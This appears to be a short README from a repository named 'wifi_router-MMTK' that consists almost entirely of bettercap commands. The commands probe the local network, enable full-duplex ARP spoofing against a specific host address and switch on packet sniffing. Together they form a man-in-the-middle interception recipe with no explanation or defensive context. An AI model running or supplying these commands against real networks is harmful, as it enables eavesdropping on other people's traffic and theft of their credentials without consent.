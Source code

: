 # wifi_router-MMTK

     bettercap -iface wlan0
     help
     net.probe on 
     net.show

    
    help arp.spoof
    arp.spoof.fullduplex true 
    
    arp.spoof.targets 192.168.0.165 
    arp.spoof on
    net.sniff on

    

